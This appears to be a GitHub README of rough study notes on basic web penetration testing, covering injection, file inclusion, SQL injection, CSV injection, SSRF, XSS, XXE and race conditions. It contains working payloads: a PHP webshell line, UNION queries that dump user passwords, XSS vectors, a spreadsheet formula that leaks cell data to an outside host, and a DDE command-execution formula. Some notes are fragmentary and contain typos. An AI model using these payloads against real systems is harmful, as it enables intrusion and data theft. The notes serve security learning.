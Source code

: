 # web-pen-basic
understand





 - Command injection is "string to command".(;,||,&&, are used to join command.The `exec()` function is for code execution.
 - Code injection is "string to code".("." is used to join code)(`eval()` function).Using " , ' for testing.
 - Directory traversal  is  "file to code".
 -  log poison
 - Using burp suit by replacing`<?php system($_GET[cmd]);`
 -  LFI , RFI(file=www.google.com or webshell)

File inclusion
---
 `include()` function 
 1. Command injection`echo exec("whoami")`
 2.                    `system("whoiam")`
 3. Blind command injection`exec("whoami")`
 4. [command payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
 5. Searching
            Regular expression security cheatsheet

SQL Injection
--

 1.union based(echo)
 - users where id=0 or 1=1     
 
 - testing numbers of columns with "order by"   
 -    union select,database(),version()   
 

     -1 union select 1,2,3,concat(table_name) from information_schema.tables where table_schema=database()    
     -1 union select 1,2,3,concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' //group_concat  
    
     -1 union select 1,2,3,concat(username,password) from users


  
 1. Error base(//echo)
       
 2. Blind based (//mysqli_report(MYSQLI_REPORT_ERROR |

MYSQLI_REPORT_STRICT))

     

 

 
 - Time based blind(1 -sleep(5))

    

 - boolean based blind(id=1 and 1=2) 
 ` $sql ="SELECT * FROM users WHERE id="$uid""`
 `$sql ="SELECT * FROM users WHERE id='$uid'"`
  `$sql ="SELECT * FROM users WHERE id=('$uid')"`

https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/06.SQL%20Injection.md

Same Original Method Execution
--

 - html injection be
 - iframe does not allow taking script from another site.
 - [REF](https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/07.Some.md)
 - universal xss

## CSV Injection
Reference
```
https://www.contextis.com/en/blog/comma-separated-vulnerabilities
https://blog.zsec.uk/csvhub/
```
Formulas  
```
=SUM(A1,A2)

```
Data Exfiltration
```
=HYPERLINK("http://host?leak="&A1&A2,"Error: please click for further information")
```
Client Side RCE ( Trust Relationships )
```
=cmd|' /C calc'!A0
```
Powersploit and Metasploit Client Side Payloads

```https://github.com/PowerShellMafia/PowerSploit ```

```https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/ ```

Cross-site Request Forgery(CSRF)
--

 - Using get method by viewing uri
 - Payload
 `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection`


Server Side Request Forgery(SSRF)
---

 - Have server ,client
 - server_address/ssrf.php?url=http://localhost/intranet.php
 
 
 
      <?php
    echo $_GET['name']
    ?> 
 

 
XSS
--
 1. Cookies can be stole.
 2. Java script execution 
 3. Advanced handler like
 4. Obfuscation
 5. Bypass or Escape
 6. Avoiding
 7. HtmlSpecialCharacter works encoding
 8. After hash sign,browser encode it.
 9. can steal cookies 
 10.can execute script when you sent to other users. 
 
 `<img src=x onerror=alert(1)>`

`<script> prompt(1)</script>`

`<svg onload=alert(1) `

`<a onclick=alert(1)>`

`<body onload=alert(1)> `

[cheatsheethtml5](https://html5sec.org/)

**DOM**

[public_firing](https://public-firing-range.appspot.com/)

**
Relative Path Overwrite(RPO)**
 
[RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
[REF](https://blog.innerht.ml/)

XXE
--

>xpath or xxe (xml external entity )
>

[play xxe](https://pentesterlab.com/exercises/play_xxe/course)




Web Cache Poisoning
-

 - Using burp suit para miner
 -` Get\?`
 
 HTTP Host Header Injection
 --
 DOM
 --
 
 - location.hash
 - https://public-firing-range.appspot.com/

Race Condition(TOTUC)
--

 - Transfer each other
 - Other will get more than the amount of transferred
 
`import datetime
import requests
from threading import Thread

def intruder(i):
	reponse=requests.get("http://127.0.0.1/webpen/race_condition/racer.php?test")
	print "Thread #{} - {}".format(i,response.text)

for i in range(20):
   	t=Thread(target=intruder,args=(i,))
	t.start()`

 - https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
 - https://defuse.ca/race-conditions-in-web-applications.htm
 - https://sakurity.com/blog/2015/05/21/starbucks.html?source=post_page-------------------------

PHP Object Injection
--

 - Object Oriented Programming(OOP)
 - Magic Method(auto call)

Server Side Template Injection
---

Document Object Model
--
Relative Path  Overwrite
--

Reference
--

> [payload](https://github.com/swisskyrepo/PayloadsAllTheThings)
> https://github.com/LunaM00n/Free-WebSec-Class/
